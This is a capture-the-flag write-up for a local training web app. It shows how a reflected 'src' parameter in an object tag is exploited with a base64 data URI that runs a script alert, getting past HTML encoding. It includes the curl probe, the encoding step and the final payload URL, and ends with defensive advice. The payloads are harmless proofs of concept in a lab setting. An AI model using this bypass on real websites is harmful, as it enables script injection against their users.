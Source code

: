 # NSA page

__http://192.168.99.101/index.php?page=media&src=nsa__

## Description
We see eagle on the page. However if we change nsa in the end of the url we get the following.

```
http://192.168.99.101/index.php?page=media&src=blabla
```
we get no found.
The tag ```src``` is the attribute of ```<object>```
For example let's link to the picture.
```http://192.168.99.101/?page=media&src=/images/42.jpeg```
We see that the javascript works incorrect.
For page ```curl -s '192.168.99.101/?page=media&src=<script>alert(1)</script>' | grep 'object'```
We see page source ```<table style="margin-top:-68px;"><center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center> <tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="&lt;script&gt;alert(1)&lt;/script&gt;"></object></td></tr></table>				</div>```

## Form Outputs
So the page must use htmlspecialchars() or htmlentities()
It is possible to encode a JavaScript alert using base64 and include it in a data URI scheme. The data URI scheme allows for embedding data directly into a web page, without the need for a separate file. The format for this scheme includes specifying the media type (in this case, text/javascript) and indicating that the data is encoded in base64.

```
data:[<media type>][;base64],<data>
```
We get the following rows
```
echo -n '<script>alert(1)</script>' | base64           
```
The output is ```PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==```

## Flag
So try to input the request to the browser
```
http://192.168.99.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
And we get the next flag.

## Safety
Developers should follow secure coding practices and regularly test their applications for vulnerabilities, while users should be cautious when visiting unfamiliar websites and ensure that their browsers and operating systems are up to date with the latest security patches. Proper input validation and output encoding should also be implemented to prevent attackers from injecting malicious code into the application and compromising user data or the entire system.